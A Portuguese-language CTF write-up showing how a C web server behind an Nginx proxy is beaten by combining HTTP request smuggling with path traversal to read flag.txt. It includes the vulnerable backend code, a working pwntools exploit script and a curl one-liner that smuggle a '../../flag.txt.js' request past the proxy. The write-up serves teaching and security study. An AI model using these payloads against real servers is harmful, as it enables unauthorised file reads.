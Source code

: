 # 🦆 DuckWare - Análise e Exploração de HTTP Smuggling + Path Traversal

> Autor: @Piceli

Este write-up documenta a resolução de um desafio CTF proposto pelo coordenador @Pira que combina duas vulnerabilidades clássicas: **Path Traversal** e **HTTP Request Smuggling**. A proposta envolve acessar arquivos sensíveis fora da pasta pública, mesmo com a presença de um proxy reverso (Nginx) configurado para mitigar tais ataques.

---

## 🔎 Visão Geral do Desafio

- **Servidor Web Customizado** em C
- **Proxy Reverso** com Nginx
- Arquivos públicos disponíveis na pasta `public/`
- Objetivo: **Ler o arquivo `flag.txt`** fora da pasta permitida

O desafio nos forneceu alguns pontos cruciais para análise:
- Código-fonte do backend
- Configuração do Nginx
- Pasta contendo o Docker e todas as configurações

---

## 🧬 Análise do Código Backend (C)

### Função de leitura de arquivos:
```c
FileWithSize *read_file(char *filename) {
    if (!ends_with(filename, ".html") && !ends_with(filename, ".png") &&
        !ends_with(filename, ".css") && !ends_with(filename, ".js")) return NULL;

    char real_path[BUFFER_SIZE];
    snprintf(real_path, sizeof(real_path), "public/%s", filename);
    FILE *fd = fopen(real_path, "r");
    // ...
}
```

### Observações:
- O backend **impede o acesso a arquivos sem extensões específicas**.
- No entanto, **não há sanitização de diretórios** — ou seja, `../` passa despercebido.
- Assim, caminhos como `../../flag.txt.js` se tornam válidos para o sistema de arquivos (resolvido como `flag.txt`).

---

## 🛡️ Barreiras Impostas pelo Proxy (Nginx)

A configuração do Nginx:
```nginx
location / {
    proxy_pass http://backend;
    proxy_set_header Host $host;
}
```

- O Nginx **remove automaticamente sequências como `../`** ao normalizar o caminho da URL.
- Consequência: não é possível realizar path traversal diretamente pela porta 8081.

---

## 💡 Abordagem: HTTP Request Smuggling

### Por que isso funciona?

O backend lê diretamente da conexão com:
```c
void handle_client(int socket_id) {
    while (1) {
        read(socket_id, buffer, BUFFER_SIZE);
        sscanf(buffer, "GET /%s", requested_filename);
        FileWithSize *file = read_file(requested_filename);
        // ...
    }
}
```

- Ele mantém a **conexão viva e processa múltiplas requisições**.
- Podemos explorar isso ao **injetar múltiplas requisições em uma única conexão** TCP.

---

## 🧪 Código de Exploração em Python

```python
from pwn import *

def pad(path):
    assert len(path) <= 1016
    prefix = '/' * (1016 - len(path))
    return prefix + path + '.js'

r = remote('localhost', 8081)

path = pad('../../flag.txt')
payload = (
    'GET /index.html HTTP/1.1\r\n'
    'Content-Length: 1024\r\n'
    'Host: localhost\r\n'
    f'Foo: {"a"*931}\r\n'
    '\r\n'

    f'GET /{path}'
    'GET /index.html HTTP/1.1\r\n'
    'Content-Length: 0\r\n'
    'Host: localhost\r\n'
    '\r\n'
)

r.send(payload.encode())
r.interactive()
```

### Estratégia:
1. A primeira requisição tem `Content-Length: 1024`, permitindo que dados extras sejam interpretados.
2. Uma segunda requisição é embutida diretamente após o cabeçalho.
3. O backend, lendo diretamente do socket, trata essa requisição maliciosa como legítima.
4. O path `../../flag.txt.js` passa no filtro de extensão e retorna o conteúdo da flag.

---

## 🧰 Alternativa: Exploração via `curl`

Também é possível realizar o mesmo ataque utilizando o `curl` com o protocolo HTTP/1.1:

```bash
curl -v --http1.1 http://localhost:8081 \
  -H "Host: localhost" \
  -H "Content-Length: 1024" \
  -H "Foo: $(python3 -c 'print("a"*931)')" \
  --data-binary $'GET /'$(python3 -c 'print("/"*(1016-len("../../flag.txt")) + "../../flag.txt.js")')$'GET /index.html HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n\r\n'
```

### Por que essa versão funciona:

- O parâmetro `--data-binary` permite enviar uma sequência bruta de dados no corpo da requisição, permitindo a injeção precisa do payload.
- O cabeçalho `Content-Length: 1024` engana o backend, fazendo-o acreditar que o corpo é extenso e que há mais dados a serem processados.
- A estrutura do payload introduz uma nova requisição **dentro** do corpo da primeira.
- O uso de `/` repetidos ajusta o comprimento total do path para que fique alinhado com o buffer esperado pelo backend.
- `curl` com `--http1.1` garante a persistência da conexão, essencial para o sucesso do smuggling.

---

## ✅ Conclusão

- A falha ocorre pela **confiança do backend em caminhos fornecidos sem sanitização**, e pelo uso incorreto de `Content-Length`.
- A proteção do Nginx se mostrou ineficaz frente ao **uso de HTTP smuggling**, já que o proxy não inspeciona o corpo da requisição.
- O ataque é efetivo pela **combinação de múltiplas falhas**:
  - Permissividade de extensões (`.js` como bypass)
  - Falta de validação de diretórios
  - Arquitetura do backend com conexões persistentes.


